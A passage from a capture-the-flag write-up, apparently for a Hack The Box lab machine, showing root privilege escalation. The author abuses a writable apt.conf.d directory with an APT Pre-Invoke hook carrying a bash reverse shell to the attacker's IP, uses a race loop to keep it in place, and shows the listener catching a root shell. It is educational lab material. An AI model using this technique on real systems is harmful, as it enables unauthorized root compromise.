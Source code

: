 ## Root

I uploaded pspy to the victim which helps us monitoring running processes and any new processes that startup on the victim machine. We see some type of repeating job, probably cron, where root is deleting some files, then running an apt update.

Looking at the /etc/apt/apt.conf.d directory, we see that management members have write access. John happens to be in the management group.

After some research, I found that you can include "APT::Update::Pre-Invoke" in a file placed in the "apt.conf.d" directory and it will execute the command you provide. This means, if we can place a file in the apt.conf.d directory in the short time window after root deletes all new files in the directory, but before root runs apt update, we can get code execution as root.

First, to create our payload file in john's home directory so the root cron job doesn't just delete it right away:
```
john@writer:/etc/apt/apt.conf.d$ cat /home/john/b00m 
APT::Update::Pre-Invoke {"/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.43/7070 0>&1'"};
```

Again, if we can get root to perform the update while this file is in the apt.conf.d directory, it'll create a reverse shell to our attaching machine as root.

Let's try running a while loop to continuously copy the file to the right directly from john's home directory. The hope is after root deletes it, our cp will happen before root performs the apt update.

```
john@writer:/etc/apt/apt.conf.d$ while true; do cp /home/john/b00m .; done;
```

We run that and wait. Eventually, it works and our listener gets a root shell back:

```
nc -lvp 7070
listening on [any] 7070 ...
connect to [10.10.14.43] from writer.htb [10.129.246.85] 56446
bash: cannot set terminal process group (401922): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# whoami
whoami
root
root@writer:/tmp# cat /root/root.txt
cat /root/root.txt
b7f0161e8ceada36dd--truncated--
```

[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu